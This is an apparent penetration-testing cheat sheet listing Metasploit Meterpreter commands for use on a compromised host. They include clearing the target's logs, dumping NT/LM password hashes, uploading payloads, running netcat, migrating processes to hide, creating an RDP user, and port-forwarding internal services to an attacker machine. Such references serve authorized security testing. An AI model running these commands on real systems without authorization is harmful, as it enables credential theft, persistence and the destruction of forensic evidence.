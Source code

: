 # Metasploit Meterpter Shell
This sheet contains commands often issued via a Meterpreter shell. 
## Shell Session Managament
* Use the `background` command to send the shell session into the background.
* Use the `sessions -l` to list the active sessions
* Use `session -i (NUMBER)` to interact with a session of ID (NUMBER)
## Clear Target's Logs
Use `clearev` to clear the target system's logs.
## File Management
* Use `download C:\boot.ini` to download a file from the target
* Use the `upload` command to upload a payload or file to the target system
* Use `pwd` and `cd` to navigation the target's file system
* Use `edit` to open vim with a fie on teh target server
* Use `search` to search  the file system in a `grep -R`, or `find`, style.
## Command Execution
* Use `execute C:\nc.exe` command to execute the command on the file system. 
## SYSTEM Information Gathering
* Use `hashdump` to get the NT/LM hashes from the target system.
* Use `idletime` to display how long the currently logged in user has been idle at the taregt system.
* Use `ipconfig` to get Network Information from the target system.
## Obfuscation
* Use the `migrate` command to migrate the meterpreter shell to another PID. This will inherit the PID's effective User ID.
## Remote Desktop
* Use `run getgui -u (UID) -p (PASSWD)` to create a user and enbale RDP on a compromised machine. 
## Port Forwarding (PortFwd)
The `portfwd` command can be used to forward a port of on your attacker machine to an iunternal service on the target system. If a service is running on localhost (127.0.0.1) on the taregt system, we can make it publically accessible through our attacker machine with the following command and syntax,
```
meterpreter> portfwd add -l (PORT ON ATTACKER MACHINE) -p (PORT ON TARGET MACHINE) -r (IP ADDRESS ON TARGET SYSTEM)
```
For example, if a service is running on an internal port, like MySQL on 3306 running on 127.0.0.1 cannot be accessible via the public IP address. We can think of it as running on the loopback adapter and not eth0, for example. 
```
meterpreter> portfwd add -l 3307 -p 3306 -r 10.10.10.254
```
The above command will fwd all traffic to my attacker system going to port 3307 to the internal service on the target system to port 3306 on the target's 127.0.0.1 lo.
